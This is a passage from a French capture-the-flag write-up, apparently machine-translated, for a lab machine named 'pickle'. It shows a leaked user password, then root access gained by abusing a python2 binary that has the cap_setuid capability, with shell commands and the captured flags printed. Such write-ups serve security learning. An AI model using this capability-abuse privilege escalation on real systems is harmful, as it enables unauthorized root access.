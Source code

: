 Et si nous courons, nous voyons que nous avons un mot de passe de marque.

    # python reset.py 
    SUk5enROY2FnUWxnV1BUWFJNNXh4amxhc00wPQ== # Mark's password 
    
    lucas@pickle:/opt/project$ su - mark 
    Password: SUk5enROY2FnUWxnV1BUWFJNNXh4amxhc00wPQ== 
    mark@pickle:~$ cat user.txt 
    e25fd1[...SNIP...] 

# Mark > Root 

La racine n'est pas très compliquée, recherchez simplement les fichiers prenant en charge les fonctionnalités.

    mark@pickle:~$ getcap -r / 2>/dev/null 
    /home/mark/python2 = cap_setuid+ep 
    /usr/bin/ping = cap_net_raw+ep 
    
Il vous suffit d'exécuter python et d'utiliser le module os pour exécuter une commande.

    mark@pickle:~$ /home/mark/python2 
    /home/mark/python2 
    Python 2.7.16 (default, Oct 10 2019, 22:02:15) 
    [GCC 8.3.0] on linux2 
    Type "help", "copyright", "credits" or "license" for more information. 
    >>> import os 
    >>> os.setuid(0) 
    >>> os.system('cat /root/root.txt') 
    7a32c9739cc63ed983ae01af2577c01c
